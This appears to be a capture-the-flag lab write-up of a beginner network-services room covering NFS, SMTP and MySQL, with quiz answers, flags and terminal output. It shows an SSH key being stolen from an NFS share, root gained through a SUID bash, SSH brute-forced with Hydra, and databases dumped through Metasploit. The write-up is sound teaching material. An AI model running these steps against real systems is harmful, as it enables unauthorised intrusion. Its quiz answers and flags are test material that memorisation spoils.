

This is the second series on Network Services in the `Network Exploitation Basics` module of the Complete Beginner path. I really learned a lot and a lot of new protocols and tools were introduced.

### NFS

---

#### Understanding NFS

What does NFS stand for?

```
Network File System
```

<br>

What process allows an NFS client to interact with a remote directory as though it was a physical drive?

```
Mounting
```

By using NFS, users and programs can access files on remote systems as if they were local files. It does this by mounting all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.

<br>

What does NFS use to represent files and directories on the server?

```
file handle
```

The server checks if the user has permission to mount whatever directory has been requested. It will then return a file handle which uniquely identifies each file and directory that is on the server.
<br>
<br>

What protocol does NFS use to communicate between the server and client?

```
RPC
```

<br>

What two pieces of user data does the NFS server take as parameters for controlling user permissions? Format: parameter 1/parameter 2

```
user id / group id
```

<br>

Can a Windows NFS server share files with a Linux client? (Y/N)

```
Y
```

<br>

Can a Linux NFS server share files with a MacOS client? (Y/N)

```
Y
```

Using the NFS protocol, you can transfer files between computers running Windows and other non-Windows operating systems, such as Linux, MacOS or Unix.
A computer running Windows Server can act as an NFS file server for other non-Windows client computers. Likewise, NFS allows a Windows-based computer running Windows server to access files stored on a non-Windows NFS server.
<br>
<br>

What is the latest version of NFS? [released in 2016, but is still up to date as of 2020] This will require external research.

```
4.2
```

<br>

#### Enumerating NFS

##### Requirements

In order to do a more advanced enumeration of the NFS server, and shares – we're going to need a few tools.

1. NFS-Common

   It is important to have this package installed on any machine that uses NFS, either as client or server. It includes programs such as: lockd, statd, showmount, nfsstat, gssd, idmapd and mount.nfs. Primarily, we are concerned with "showmount" and "mount.nfs" as these are going to be most useful to us when it comes to extracting information from the NFS share

2. Port Scanning
3. Mounting NFS shares

   Your client's system needs a directory where all the content shared by the host server in the export folder can be accessed. You can create this folder anywhere on your system. Once you've created this mount point, you can use the "mount" command to connect the NFS share to the mount point on your machine like so: `sudo mount -t nfs IP:share /tmp/mount/ -nolock`

   `sudo` : run as root <br>
   `mount` : execute the mount command <br>
   `-t nfs` : type of device to mount, then specifying that it's NFS <br>
   `IP:share`: the IP address of the NFS server, and the name of the share we wish to mount <br>
   `-nolock`: specifies not to use NLM locking

<br>

Conduct a thorough port scan of your choosing, how many ports are open?

```
7
```

```shell
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 73:92:8e:04:de:40:fb:9c:90:f9:cf:42:70:c8:45:a7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDEQIafB/d+8xhCVa/WJUjV/xtzU7h9fmdPMEVWEobVN59eusBnBD19rp08xrjFOkvHdLSe3XCaDSSreOd4m9If73vzGT/dpXO4kj2Je+p2ALDLLr0vbA+/EVrFJjsbKJ6OLNWGw2nD6romEld++MLOI0SbY9zaM3ov4hwQZ2Fnp9QF5OAt3zqIyxk5Xr99gpm/i4mk3YtA+3I1WHpdLE5Uw41aOVYapowLh+sG1Uyi8dxnI7WJ04DywrUftJam/ajlY6QAiWDR96QRw7RuNJ+8dOLDj7JT+aNREvSTrSWahn+clpIwCgDuVUYy36BEfyTpC/JyTtuS077Bj8vv8NLl
| 256 6d:63:d6:b8:0a:67:fd:86:f1:22:30:2b:2d:27:1e:ff (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIL2RAJwSBEjlVNFa6km4BnXrbfxBqanFGsc8V7KPraGwGaJkBCtaUpVRQmPXQHhNePswl4UI2rsxVLcw/DYQ4s=
| 256 bd:08:97:79:63:0f:80:7c:7f:e8:50:dc:59:cf:39:5e (EdDSA)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINqYlGyJzySWsOMejWbc9mf3mFzerVbrty8i6PCOR7lv
111/tcp open rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100003 3 2049/udp nfs
| 100003 3,4 2049/tcp nfs
| 100005 1,2,3 52691/tcp mountd
| 100005 1,2,3 57133/udp mountd
| 100021 1,3,4 34475/tcp nlockmgr
| 100021 1,3,4 48911/udp nlockmgr
| 100227 3 2049/tcp nfs_acl
|_ 100227 3 2049/udp nfs_acl
2049/tcp open nfs_acl syn-ack ttl 64 3 (RPC #100227)
34475/tcp open nlockmgr syn-ack ttl 64 1-4 (RPC #100021)
46359/tcp open mountd syn-ack ttl 64 1-3 (RPC #100005)
52691/tcp open mountd syn-ack ttl 64 1-3 (RPC #100005)
56583/tcp open mountd syn-ack ttl 64 1-3 (RPC #100005)
```

<br>

Which port contains the service we're looking to enumerate?

```
2049
```

```shell
| 100003 3 2049/udp nfs
| 100003 3,4 2049/tcp nfs
```

<br>

Now, use `/usr/sbin/showmount -e [IP]` to list the NFS shares, what is the name of the visible share?

```
/home
```

```shell
root@ip-10-10-87-146:~# /usr/sbin/showmount -e 10.10.14.167
Export list for 10.10.14.167:
/home \*
```

<br>
Time to mount the share to our local machine!

First, use `mkdir /tmp/mount` to create a directory on your machine to mount the share to. This is in the /tmp directory - so be aware that it will be removed on restart.

Then, use the mount command we broke down earlier to mount the NFS share to your local machine. Change directory to where you mounted the share – what is the name of the folder inside?

```
cappucino
```

```shell
root@ip-10-10-87-146:~# mkdir /tmp/mount
root@ip-10-10-87-146:~# sudo mount -t nfs 10.10.14.167:home /tmp/mount/ -nolock
root@ip-10-10-87-146:~# cd /tmp/mount
root@ip-10-10-87-146:/tmp/mount# ls
cappucino
```

<br>

Have a look inside the directory, look at the files. Looks like we're inside a user's home directory...

Interesting! Let's do a bit of research now, have a look through the folders. Which of these folders could contain keys that would give us remote access to the server?

```
.ssh
```

```shell
root@ip-10-10-87-146:/tmp/mount/cappucino# ls
root@ip-10-10-87-146:/tmp/mount/cappucino# ls -al
total 36
drwxr-xr-x 5 ubuntu ubuntu 4096 Jun 4 2020 .
drwxr-xr-x 3 root root 4096 Apr 21 2020 ..
-rw------- 1 ubuntu ubuntu 5 Jun 4 2020 .bash_history
-rw-r--r-- 1 ubuntu ubuntu 220 Apr 4 2018 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3771 Apr 4 2018 .bashrc
drwx------ 2 ubuntu ubuntu 4096 Apr 22 2020 .cache
drwx------ 3 ubuntu ubuntu 4096 Apr 22 2020 .gnupg
-rw-r--r-- 1 ubuntu ubuntu 807 Apr 4 2018 .profile
drwx------ 2 ubuntu ubuntu 4096 Apr 22 2020 .ssh
-rw-r--r-- 1 ubuntu ubuntu 0 Apr 22 2020 .sudo_as_admin_successful
```

<br>

Which of these keys is most useful to us?

```
id_rsa
```

`id_rsa` is the default name of an SSH identity file.

<br>

Copy this file to a different location your local machine, and change the permission to "600" using `chmod 600 [file]`.

Assuming we were right about what type of directory this is, we can pretty easily work out the name of the user this key corresponds to.

Can we log into the machine using `ssh -i <key-file> <username>@\<ip> ?` (Y/N).

```
Y
```

```shell
root@ip-10-10-233-18:~# cp /tmp/mount/cappucino/.ssh/id_rsa ~
root@ip-10-10-233-18:~# ls
burp.json Desktop id_rsa Pictures Rooms thinclient_drives
CTFBuilder Downloads Instructions Postman Scripts Tools
root@ip-10-10-233-18:~# chmod 600 id_rsa
root@ip-10-10-233-18:~# ssh -i id_rsa cappucino@10.10.14.167
```

```shell
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

- Documentation: https://help.ubuntu.com
- Management: https://landscape.canonical.com
- Support: https://ubuntu.com/advantage

System information as of Tue Jun 25 05:47:40 UTC 2024

System load: 0.0 Processes: 102
Usage of /: 45.2% of 9.78GB Users logged in: 0
Memory usage: 16% IP address for eth0: 10.10.14.167
Swap usage: 0%

44 packages can be updated.
0 updates are security updates.

Last login: Thu Jun 4 14:37:50 2020
cappucino@polonfs:~$
```

<br>

#### Exploiting NFS

##### What is root_squash?

By default, on NFS shares- Root Squashing is enabled, and prevents anyone connecting to the NFS share from having root access to the NFS volume. Remote root users are assigned a user “nfsnobody” when connected, which has the least local privileges. Not what we want. However, if this is turned off, it can allow the creation of SUID bit files, allowing a remote user root access to the connected system.

##### SUID

So, what are files with the SUID bit set? Essentially, this means that the file or files can be run with the permissions of the file(s) owner/group. In this case, as the super-user. We can leverage this to get a shell with these privileges!

Due to compatibility reasons, we will obtain the bash executable directly from the target machine.
With the key obtained in the previous task, we can use SCP with the command `scp -i key_name username@10.10.14.168:/bin/bash ~/Downloads/bash` to download it onto our attacking machine.

Here's a step by step of the actions we're taking, and how they all tie together to allow us to gain a root shell:

1. NFS Access
2. Gain Low Privilege Shell
3. Upload Bash Executable to the NFS share
4. Set SUID Permissions Through NFS Due To Misconfigured Root Squash
5. Login Through SSH
6. Execute SUID Bit Bash Executable
7. Root Access

First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.

```
root@ip-10-10-233-18:/tmp/mount/cappucino#
```

<br>

Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"

```shell
root@ip-10-10-233-18:/tmp/mount/cappucino/.ssh# scp -i id_rsa cappucino@10.10.14.167:/bin/bash ~/Downloads/bash
bash 100% 1087KB 85.0MB/s 00:00
root@ip-10-10-233-18:/tmp/mount/cappucino/.ssh# cd ..
root@ip-10-10-233-18:/tmp/mount/cappucino# ls
root@ip-10-10-233-18:/tmp/mount/cappucino# ls -al
total 36
drwxr-xr-x 5 ubuntu ubuntu 4096 Jun 4 2020 .
drwxr-xr-x 3 root root 4096 Apr 21 2020 ..
-rw------- 1 ubuntu ubuntu 20 Jun 25 07:00 .bash_history
-rw-r--r-- 1 ubuntu ubuntu 220 Apr 4 2018 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3771 Apr 4 2018 .bashrc
drwx------ 2 ubuntu ubuntu 4096 Apr 22 2020 .cache
drwx------ 3 ubuntu ubuntu 4096 Apr 22 2020 .gnupg
-rw-r--r-- 1 ubuntu ubuntu 807 Apr 4 2018 .profile
drwx------ 2 ubuntu ubuntu 4096 Apr 22 2020 .ssh
-rw-r--r-- 1 ubuntu ubuntu 0 Apr 22 2020 .sudo_as_admin_successful
root@ip-10-10-233-18:/tmp/mount/cappucino# cp ~/Downloads/bash .
root@ip-10-10-233-18:/tmp/mount/cappucino# ls
bash
root@ip-10-10-233-18:/tmp/mount/cappucino# sudo chown root bash
```

<br>

Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using `sudo chmod +[permission] bash`. What letter do we use to set the SUID bit set using chmod?

```
s
```

The letter `s` is used to set the setuid (SUID) bit using the `chmod` command in Linux:

- chmod u+s </path/to/the/file>: Sets the setuid bit symbolically
- chmod u-s: Removes the setuid bit

<br>

Let's do a sanity check, let's check the permissions of the `bash` executable using `ls -la bash`. What does the permission set look like? Make sure that it ends with -sr-x.

```
-rwsr-sr-x
```

```shell
root@ip-10-10-233-18:/tmp/mount/cappucino# sudo chmod +s bash
root@ip-10-10-233-18:/tmp/mount/cappucino# ls -la bash
-rwsr-sr-x 1 root root 1113504 Jun 25 07:04 bash
```

<br>

Now, SSH into the machine as the user. List the directory to make sure the bash executable is there. Now, the moment of truth. Let's run it with "./bash -p". The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.

Great! If all's gone well you should have a shell as root! What's the root flag?

```
THM{nfs_got_pwned}
```

```shell
cappucino@polonfs:~$ ls
bash
cappucino@polonfs:~$ ./bash -p
bash-4.4# whoami
root
```

```shell
bash-4.4# whoami
root
bash-4.4# ls /root
root.txt
bash-4.4# cat /root/root.txt
THM{nfs_got_pwned}
bash-4.4#
```

<br>

### SMTP (Simple Mail Transfer Protocol)

---

#### Understanding SMTP

The SMTP server performs three basic functions:

1. It verifies who is sending emails through the SMTP server.
2. It sends the outgoing mail
3. If the outgoing mail can't be delivered it sends the message back to the sender.

##### POP and IMAP

POP, Post Office Protocol, and IMAP, Internet Message Access Protocol, are both email protocols who are responsible for the transfer of email between a client and a mail server. The main difference is in POP is more simplistic approach of downloading the inbox from the mail server, to the client. Where IMAP will synchronize the current inbox, with the new mail on the server, downloading anything new.

<div style="text-align: center"></div>

<br>

What does SMTP stand for?

```
Simple Mail Transfer Protocol
```

<br>
What does SMTP handle the sending of?
```
emails
```
<br>
What is the first step in the SMTP process?

```
SMTP handshake
```

What is the default SMTP port?

```
25
```

<br>
Where does the SMTP server send the email if the recipient's server is not available?

```
SMTP Queue
```

<br>

On what server does the Email ultimately end up on?

```
POP/IMAP
```

<br>

Can a Linux machine run an SMTP server?

```
Y
```

<br>

Can a Windows machine run an SMTP server?

```
Y
```

<br>

#### Enumerating SMTP

Poorly configured or vulnerable mail servers can often provide an initial foothold into a network. We want to fingerprint the server to make our targeting as precise as possible before launching an attack. We can use the smtp_version module in Metasploit.

The SMTP service has two internal commands that allow the enumeration of users: VRFY (confirming the names of valid users) and EXPN (which reveals the actual addresses of user's aliases and lists of email). We can do this manually, over a telnet connection – however Metasploit provides a handy module called smtp_enum that will do the legwork for us.

<br>

First, let's run a port scan against the target machine, same as last time. What port is SMTP running on?

```
25
```

```shell
root@ip-10-10-35-22:~# nmap -sV 10.10.54.3

Starting Nmap 7.60 ( https://nmap.org ) at 2024-06-26 03:31 BST
Nmap scan report for ip-10-10-54-3.eu-west-1.compute.internal (10.10.54.3)
Host is up (0.00069s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
25/tcp open smtp Postfix smtpd
MAC Address: 02:4B:FA:CD:BD:EB (Unknown)
Service Info: Host: polosmtp.home; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.53 seconds
```

<br>

Okay, now we know what port we should be targeting, let's start up Metasploit. What command do we use to do this?

```
msfconsole
```

<br>

Let's search for the module smtp_version, what's its full module name?

```
auxiliary/scanner/smtp/smtp_version
```

```shell
msf6 > search smtp_version

# Matching Modules

# Name Disclosure Date Rank Check Description

---

0 auxiliary/scanner/smtp/smtp_version normal No SMTP Banner Grabber

Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/smtp/smtp_version
```

<br>

Great, now select the module and list the options. How do we do this?

```
options
```

```shell
msf6 > use 0
msf6 auxiliary(scanner/smtp/smtp_version) > options

Module options (auxiliary/scanner/smtp/smtp_version):

Name Current Setting Required Description

---

RHOSTS yes The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploi
t.html
RPORT 25 yes The target port (TCP)
THREADS 1 yes The number of concurrent threads (max one per host)

View the full module info with the info, or info -d command.

```

<br>

Have a look through the options, does everything seem correct? What is the option we need to set?

```
RHOSTS
```

<br>

Set that to the correct value for your target machine. Then run the exploit. What's the system mail name?

```
polosmtp.home
```

```shell
msf6 auxiliary(scanner/smtp/smtp_version) > set rhosts 10.10.54.3
rhosts => 10.10.54.3
msf6 auxiliary(scanner/smtp/smtp_version) > run

[+] 10.10.54.3:25 - 10.10.54.3:25 SMTP 220 polosmtp.home ESMTP Postfix (Ubuntu)\x0d\x0a
[*] 10.10.54.3:25 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<br>

What Mail Transfer Agent (MTA) is running the SMTP server? This will require some external research.

```
Postfix
```

<br>

Good! We've now got a good amount of information on the target system to move onto the next stage. Let's search for the module `smtp_enum`, what is the full module name?

```
auxiliary/scanner/smtp/smtp_enum
```

```shell
msf6 auxiliary(scanner/smtp/smtp_version) > search smtp_enum

# Matching Modules

# Name Disclosure Date Rank Check Description

---

0 auxiliary/scanner/smtp/smtp_enum normal No SMTP User Enumeration Utility

Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/smtp/smtp_enum

msf6 auxiliary(scanner/smtp/smtp_version) >
```

<br>

We're going to be using the `top-usernames-shortlist.txt` wordlist from the usernames subsection of seclists (/usr/share/wordlists/SecLists/usernames if you have it installed).
Seclists is an amazing collection of wordlists. If you're running Kali or Parrot you can install seclists with: `sudo apt install seclists`.

<br>

What option do we need to set to the wordlist's path?

```
USER_FILE
```

```shell
msf6 auxiliary(scanner/smtp/smtp_enum) > options

Module options (auxiliary/scanner/smtp/smtp_enum):

Name Current Setting Required Description

---

RHOSTS yes The target host(s), see https://docs.metasploit.com/docs/using-metaspl
oit/basics/using-metasploit.html
RPORT 25 yes The target port (TCP)
THREADS 1 yes The number of concurrent threads (max one per host)
UNIXONLY true yes Skip Microsoft bannered servers when testing unix users
USER_FILE /opt/metasploit-framework/embedded/fram yes The file that contains a list of probable users accounts.
ework/data/wordlists/unix_users.txt

View the full module info with the info, or info -d command.
```

<br>

Once we've set this option, what is the other essential parameter we need to set?

```
RHOSTS
```

```shell
msf6 auxiliary(scanner/smtp/smtp_enum) > set USER_FILE /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
USER_FILE => /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
msf6 auxiliary(scanner/smtp/smtp_enum) > set RHOSTS 10.10.54.3
RHOSTS => 10.10.54.3
msf6 auxiliary(scanner/smtp/smtp_enum) > run

[*] 10.10.54.3:25 - 10.10.54.3:25 Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)
[+] 10.10.54.3:25 - 10.10.54.3:25 Users found: administrator
[*] 10.10.54.3:25 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<br>

What username is returned?

```
administrator
```

```shell
[+] 10.10.54.3:25 - 10.10.54.3:25 Users found: administrator
```

<br>

#### Exploiting SMTP

At the end of our Enumeration section we have a few vital pieces of information:

1. A user account name
2. The type of SMTP server and Operating System running.

We know from our port scan, that the only other open port on this machine is an SSH login. We're going to use this information to try and bruteforce the password of the SSH login for our user using Hydra.

There is a wide array of customizability when it comes to using Hydra. Hydra uses dictionary attacks primarily, both Kali Linux and Parrot OS have many different wordlists in the `/usr/share/wordlists directory` – If you would like to browse and find a different wordlists to the widely used "rockyou.txt".

The syntax for the command we're going to use to find the password is this:

`hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.54.3 ssh`

- `hydra`: runs the hydra tool
- `-t 16`: number of parallel connections per target
- `-l [user]`: points to the user whose account you're trying to compromise
- `-P [path to dictionary]`: points to the file containing the list of possible passwords
- `-vV`: sets verbose mode to very verbose, shows the login+pass combination for each attempt
- `[machine ip]`: the IP address of the target machine
- `ssh / protocol`: sets the protocol

<br>

What is the password of the user we found during our enumeration stage?

```
alejandro
```

```shell
root@ip-10-10-35-22:~# hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.54.3 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-06-26 04:28:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.54.3:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://administrator@10.10.54.3:22
[INFO] Successful, password authentication is supported by ssh://10.10.54.3:22
[ATTEMPT] target 10.10.54.3 - login "administrator" - pass "123456" - 1 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.54.3 - login "administrator" - pass "12345" - 2 of 14344398 [child 1] (0/0)
```

```shell
[ATTEMPT] target 10.10.54.3 - login "administrator" - pass "killer" - 143 of 14344401 [child 11] (0/3)
[ATTEMPT] target 10.10.54.3 - login "administrator" - pass "sandra" - 144 of 14344401 [child 14] (0/3)
[ATTEMPT] target 10.10.54.3 - login "administrator" - pass "alejandro" - 145 of 14344401 [child 15] (0/3)
[ATTEMPT] target 10.10.54.3 - login "administrator" - pass "buster" - 146 of 14344401 [child 10] (0/3)
[ATTEMPT] target 10.10.54.3 - login "administrator" - pass "george" - 147 of 14344401 [child 4] (0/3)
[22][ssh] host: 10.10.54.3 login: administrator password: alejandro
[STATUS] attack finished for 10.10.54.3 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

<br>

Great! Now, let's SSH into the server as the user, what is contents of smtp.txt

```
THM{who_knew_email_servers_were_c00l?}
```

```shell
root@ip-10-10-35-22:~# ssh administrator@10.10.54.3
The authenticity of host '10.10.54.3 (10.10.54.3)' can't be established.
ECDSA key fingerprint is SHA256:ABheODwYmk63/Mmp8cbMSoVTNv3vcgWbzukZoGMb62I.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.54.3' (ECDSA) to the list of known hosts.
administrator@10.10.54.3's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-111-generic x86_64)

- Documentation: https://help.ubuntu.com
- Management: https://landscape.canonical.com
- Support: https://ubuntu.com/advantage

System information as of Wed Jun 26 03:31:06 UTC 2024

System load: 0.01 Processes: 91
Usage of /: 43.9% of 9.78GB Users logged in: 0
Memory usage: 15% IP address for eth0: 10.10.54.3
Swap usage: 0%

87 packages can be updated.
35 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Apr 22 22:21:42 2020 from 192.168.1.110
administrator@polosmtp:~$ ls
dead.letter Maildir smtp.txt
administrator@polosmtp:~$ cat smtp.txt
THM{who_knew_email_servers_were_c00l?}
```

<br>

### MySQL

---

#### Understanding MySQL

MySQL is a relational database management system (RDBMS) based on Structured Query Language (SQL).

MySQL, as an RDBMS, is made up of the server and utility programs that help in the administration of MySQL databases.

1. MySQL creates a database for storing and manipulating data, defining the relationship of each table.
2. Clients make requests by making specific statements in SQL.
3. The server will respond to the client with whatever information has been requested.

<br>

What type of software is MySQL?

```
Relational Database Management System
```

<br>
What language is MySQL based on?

```
SQL
```

<br>

What communication model does MySQL use?

```
client-server
```

<br>

What is a common application of MySQL?

```
back end database
```

<br>

What major social network uses MySQL as their back-end database? This will require further research.

```
Facebook
```

<br>

#### Enumerating MySQL

Typically, you will have gained some initial credentials from enumerating other services that you can then use to enumerate and exploit the MySQL service. For the sake of the scenario, we're going to assume that we found the `credentials: "root:password"` while enumerating subdomains of a web server. After trying the login against SSH unsuccessfully, you decide to try it against MySQL.

<br>

As always, let's start out with a port scan, so we know what port the service we're trying to attack is running on. What port is MySQL using?

```
3306
```

```shell
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3306/tcp open mysql MySQL 5.7.29-0ubuntu0.18.04.1
```

<br>

Good, now – we think we have a set of credentials. Let's double check that by manually connecting to the MySQL server. We can do this using command `mysql -h [IP] -u [username] -p`.

```shell
root@ip-10-10-35-22:~# mysql -h 10.10.151.196 -u root -p
Enter password:
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 3
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

<br>

Okay, we know that our login credentials work. Let's quit out of this session with "exit" and launch up Metasploit.

```shell
root@ip-10-10-35-22:~# msfconsole
This copy of metasploit-framework is more than two weeks old.
Consider running 'msfupdate' to update to the latest version.

         .                                         .

.

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB

dB'dB'dB' dBP dBP dBP BB
dB'dB'dB' dBBBBP dBP dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.3.5-dev-                          ]

- -- --=[ 2294 exploits - 1201 auxiliary - 410 post ]
- -- --=[ 968 payloads - 45 encoders - 11 nops ]
- -- --=[ 9 evasion ]

Metasploit tip: Adapter names can be used for IP params
set LHOST eth0
Metasploit Documentation: https://docs.metasploit.com/

msf6 >
```

<br>

We're going to be using the `mysql_sql` module.
Search for, select and list the options it needs. What three options do we need to set? (in descending order).

```
PASSWORD
RHOSTS
USERNAME
```

```shell
msf6 > search mysql_sql

# Matching Modules

# Name Disclosure Date Rank Check Description

---

0 auxiliary/admin/mysql/mysql_sql normal No MySQL SQL Generic Query

Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/mysql/mysql_sql

msf6 > use 0
msf6 auxiliary(admin/mysql/mysql_sql) > options

Module options (auxiliary/admin/mysql/mysql_sql):

Name Current Setting Required Description

---

PASSWORD no The password for the specified username
RHOSTS yes The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metaspl
oit.html
RPORT 3306 yes The target port (TCP)
SQL select version() yes The SQL to execute.
USERNAME no The username to authenticate as

View the full module info with the info, or info -d command.
```

```shell
msf6 auxiliary(admin/mysql/mysql_sql) > set USERNAME root
USERNAME => root
msf6 auxiliary(admin/mysql/mysql_sql) > set RHOSTS 10.10.151.196
RHOSTS => 10.10.151.196
msf6 auxiliary(admin/mysql/mysql_sql) > set PASSWORD password
PASSWORD => password
```

<br>

Run the exploit. By default it will test with the `select version()` command, what result does this give you?

```
5.7.29-0ubuntu0.18.04.1
```

```shell
msf6 auxiliary(admin/mysql/mysql_sql) > run
[*] Running module against 10.10.151.196

[*] 10.10.151.196:3306 - Sending statement: 'select version()'...
[*] 10.10.151.196:3306 - | 5.7.29-0ubuntu0.18.04.1 |
[*] Auxiliary module execution completed
msf6 auxiliary(admin/mysql/mysql_sql) >
```

<br>

Great! We know that our exploit is landing as planned. Let's try to gain some more ambitious information. Change the sql option to show databases. How many databases are returned?

```
4
```

```shell
msf6 auxiliary(admin/mysql/mysql_sql) > set SQL show databases
SQL => show databases
msf6 auxiliary(admin/mysql/mysql_sql) > options

Module options (auxiliary/admin/mysql/mysql_sql):

Name Current Setting Required Description

---

PASSWORD password no The password for the specified username
RHOSTS 10.10.151.196 yes The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasplo
it.html
RPORT 3306 yes The target port (TCP)
SQL show databases yes The SQL to execute.
USERNAME root no The username to authenticate as

View the full module info with the info, or info -d command.
```

```shell
msf6 auxiliary(admin/mysql/mysql_sql) > run
[*] Running module against 10.10.151.196

[*] 10.10.151.196:3306 - Sending statement: 'show databases'...
[*] 10.10.151.196:3306 - | information_schema |
[*] 10.10.151.196:3306 - | mysql |
[*] 10.10.151.196:3306 - | performance_schema |
[*] 10.10.151.196:3306 - | sys |
[*] Auxiliary module execution completed
```

<br>

#### Exploiting MySQL

Take a sanity check before moving on to try and exploit the database fully. We know:

1. MySQL server credentials
2. The version of MySQL running
3. The number of Databases, and their names.

<br>

_Schema_
In MySQL, physically, a `schema` is synonymous with a `database`. You can substitute the keyword schema instead of database in MySQL SQL syntax, for example using `CREATE SCHEMA` instead of `CREATE DATABASE`. Some other database products draw a distinction.

_Hashes_
Hashes are the product of a cryptographic algorithm to turn a variable length input into a fixed length output. In MySQL hashes can be used in different ways, for instance to index data into a hash table. Each hash has a unique ID that serves as a pointer to the original data.

<br>

First, let's search for and select the `mysql_schemadump` module. What's the module's full name?

```
auxiliary/scanner/mysql/mysql_schemadump
```

```shell
msf6 auxiliary(admin/mysql/mysql_sql) > search mysql_schemadump

# Matching Modules

# Name Disclosure Date Rank Check Description

---

0 auxiliary/scanner/mysql/mysql_schemadump normal No MYSQL Schema Dump
```

<br>

Great! Now, you've done this a few times by now so I'll let you take it from here. Set the relevant options, run the exploit. What's the name of the last table that gets dumped?

```
x$waits_global_by_latency
```

```shell
msf6 auxiliary(scanner/mysql/mysql_schemadump) > options

Module options (auxiliary/scanner/mysql/mysql_schemadump):

Name Current Setting Required Description

---

DISPLAY_RESULTS true yes Display the Results to the Screen
PASSWORD no The password for the specified username
RHOSTS yes The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-m
etasploit.html
RPORT 3306 yes The target port (TCP)
THREADS 1 yes The number of concurrent threads (max one per host)
USERNAME no The username to authenticate as

View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/mysql/mysql_schemadump) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set RHOSTS 10.10.151.196
RHOSTS => 10.10.151.196
